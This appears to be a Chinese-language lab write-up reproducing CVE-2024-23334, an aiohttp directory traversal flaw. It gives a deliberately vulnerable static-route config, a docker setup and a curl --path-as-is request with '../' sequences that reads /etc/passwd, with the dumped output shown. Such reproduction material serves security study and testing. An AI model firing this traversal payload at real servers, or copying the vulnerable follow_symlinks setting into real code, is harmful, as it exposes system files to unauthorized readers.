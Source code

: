 # CVE-2024-23334 目录穿越

aiohttp是一个用于asyncio和Python的异步HTTP客户端/服务器框架。当使用aiohttp作为web服务器并配置静态路由时，有必要指定静态文件的根路径。此外，选项`follow_symlinks`
可用于确定是否遵循静态根目录之外的符号链接。当`follow_symlinks`设置为`True`
时，不需要验证读取文件是否在根目录中。这可能导致目录遍历漏洞，导致未经授权访问系统上的任意文件，即使不存在符号链接。禁用`follow_symlinks`
和可使用反向代理缓解措施。3.9.2版修复了此问题。

参考链接：

- https://github.com/aio-libs/aiohttp/commit/1c335944d6a8b1298baf179b7c0b3069f10c514b
- https://github.com/aio-libs/aiohttp/pull/8079
- https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/ICUOCFGTB25WUT336BZ4UNYLSZOUVKBD/
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/XXWVZIVAYWEBHNRIILZVB3R3SDQNNAA7/

## 环境搭建

- 存在漏洞的代码

```python
# examples/server_simple.py
from aiohttp import web

app = web.Application()
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])

if __name__ == '__main__':
    web.run_app(app)

# 访问 https://www.jetbrains.com/help/pycharm/ 获取 PyCharm 帮助

```

执行如下命令启动一个aiohttp:3.9.1：

```
docker compose up -d
```

## 漏洞复现

```bash
➜  CVE-2024-23334 git:(master) ✗ curl --path-as-is http://172.17.0.2:8080/static/../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

```
